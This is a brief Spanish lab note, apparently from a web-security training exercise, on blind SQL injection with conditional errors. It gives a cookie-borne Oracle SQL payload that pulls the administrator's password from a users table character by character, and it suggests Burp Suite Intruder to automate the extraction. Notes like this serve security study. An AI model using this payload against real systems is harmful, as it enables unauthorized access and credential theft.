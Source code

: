 # Blind SQL injection with conditional errors

Se hace con esta iyección: `Cookie: TrackingId=WoSUZWCmUB65z08c' AND (SELECT CASE WHEN (username = 'administrator' AND SUBSTR(password, 21, 1) = '§r§') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE ROWNUM = 1) = 'a;`

Es recomendable usar el `intruder` de `Burp Suite` para automatizar el proceso.